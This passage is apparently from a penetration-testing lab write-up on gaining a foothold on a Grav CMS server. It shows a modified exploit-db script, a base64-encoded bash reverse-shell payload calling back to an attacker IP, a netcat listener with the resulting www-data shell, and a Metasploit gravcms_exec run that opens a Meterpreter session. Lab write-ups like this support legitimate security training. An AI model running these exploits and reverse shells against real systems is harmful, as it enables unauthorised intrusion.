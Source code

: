 ```
Shellcodes: No Results
```

So two notes:

- we don't really know what version of Grav we are working against
- the `searchsploit` results don't have any explicit RCE exploit, but the "arbitrary file write" exploits could be promising

We'll try them both if we have to. One is a python script, one is a `metasploit` module.

## Foothold

10) We have to modify the [exploit code](https://www.exploit-db.com/exploits/49973) to account for our hostname and that the root path of grav is not `/` but `/grav-admin/`, as well as a payload that sets up a reverse shell for our IP and listener port (which we'll set up in a bit)

(The modified code is in this directory along with the original)

payload generated as per the comments in the code: 

```
??$ echo -ne "bash -i >& /dev/tcp/192.168.49.51/80 0>&1" | base64 -w0
YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjQ5LjUxLzgwIDA+JjE=                                                                                                       
``` 

11) Set up a local listener (with `nv -lvnp 80`), and run the modified version of the exploit (`python 49973-modified.py`)

```
??$ nc -lvnp 80
listening on [any] 80 ...
connect to [192.168.49.51] from (UNKNOWN) [192.168.51.12] 54956
bash: cannot set terminal process group (3303): Inappropriate ioctl for device
bash: no job control in this shell
www-data@gravity:~/html/grav-admin$ whoami
whoami
www-data
```

Within a minute or so, we catch a shell as user `www-data`!

## Foothold w/ Metasploit (Bonus) 

For fun, also tried the metasploit module:


```
msf6 exploit(linux/http/gravcms_exec) > set TARGETURI /grav-admin/
TARGETURI => /grav-admin/
msf6 exploit(linux/http/gravcms_exec) > run

[*] Started reverse TCP handler on 192.168.49.51:80 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable.
[*] Sending request to the admin path to generate cookie and token
[+] Cookie and CSRF token successfully extracted !
[*] Implanting payload via scheduler feature
[+] Scheduler successfully created ! Wait up to 93 seconds
[*] Sending stage (39927 bytes) to 192.168.51.12
[*] Cleaning up the scheduler...
[+] The scheduler config successfully cleaned up!
[*] Meterpreter session 1 opened (192.168.49.51:80 -> 192.168.51.12:56074) at 2024-03-01 03:35:02 +0000

meterpreter > shell
```
